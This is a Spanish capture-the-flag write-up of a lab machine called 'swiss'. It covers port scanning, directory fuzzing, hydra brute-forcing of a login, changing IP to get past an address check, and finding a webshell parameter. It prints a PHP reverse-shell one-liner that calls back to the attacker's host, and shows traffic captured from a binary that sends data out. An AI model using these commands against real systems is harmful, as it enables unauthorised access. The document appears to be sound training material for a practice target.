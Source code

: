 # Maquina swiss

### Puertos abiertos

sudo nmap -sS --min-rate 6000 -p- --open -vvv -Pn 172.17.0.2

![alt text](image.png)

### Servicios y versiones

sudo nmap -sVC --min-rate 6000 -p22,80 -vvv -Pn 172.17.0.2

![alt text](image-1.png)

### Fuzzing Web

gobuster dir -t 200 -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,bak,sh,py,js,html -r -b 403,404 2>/dev/null


Entramos en la web, es una web de el pinguino de Mario, entramos en el apartado de sobre mí al momento de hacer clic en Ir al linkedin, hay un formulario de login:

![alt text](image-11.png)

![alt text](image-10.png)

aplicando fuerza bruta con hydra al formulario de login, las credenciales son: administrator - panther

![alt text](image-3.png)

![alt text](image-2.png)

Después de varias pruebas la ip que funcionó fue la 172.17.0.200

para cambiar mi ip ejecuté:

elimino mi Ip actual
ip address del 172.17.0.1/16 dev docker0

asigno nueva ip
ip address add 172.17.0.200/16 dev docker0

Me conecté por ssh, pero el usuario darks tiene rbash

![alt text](image-4.png)

al hacer ls me encuentro con un archivo llamado mensaje.txt y al ver su contenido:

![alt text](image-5.png)

Entonces analizando la url después de iniciar sesión:

![alt text](image-6.png)

Utilizando WFUZZ para ver si tiene una webshell:


wfuzz -c --hl=44 -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://172.17.0.2/sobre-mi/confidencial.php?FUZZ=id"


![alt text](image-7.png)

Me puse con netcat en escucha por el puerto 443 y ejecuté en la url:

![alt text](image-8.png)

url encondeamos esto:

php -r '$sock=fsockopen("172.17.0.200",4450);exec("/bin/bash <&3 >&3 2>&3");'

![alt text](image-12.png)

![alt text](image-9.png)

no hice tratamiento de la TTY porque se me congelaba la sesión al momento de suspender la sesión, me aparecía un mensje de script done y se congelaba.

![alt text](image-13.png)

ejcuté el comando: find / -type f -user www-data 2>/dev/null | grep -v proc

encontré un binario llamado sendinv2, lo descargué en mi kali y lo analizé

![alt text](image-14.png)

![alt text](image-15.png)

Lo importante:

![alt text](image-16.png)

el binario al ser ejecutado envia datos y al parecer lo hace a la ip 172.17.0.188, cambié la ip a la 188 y ejecuté

sudo tcpdump -i docker0

![alt text](image-17.png)

entonces el binario envía información por el puerto 777 a través del protocolo udp

Me pongo en escucha por ese puerto:

nc -lnvup 7777:

![alt text](image-18.png)

lo desencripto:

![alt text](image-19.png)

cambié la ip a 172.17.0.200 otra vez y me conecté por ssh con las credenciales encontradas.

modifiqué el archivo systm.c y le reemplacé por el siguiente código:

![alt text](image-21.png)

esperé 15 segundos:

![alt text](image-20.png)


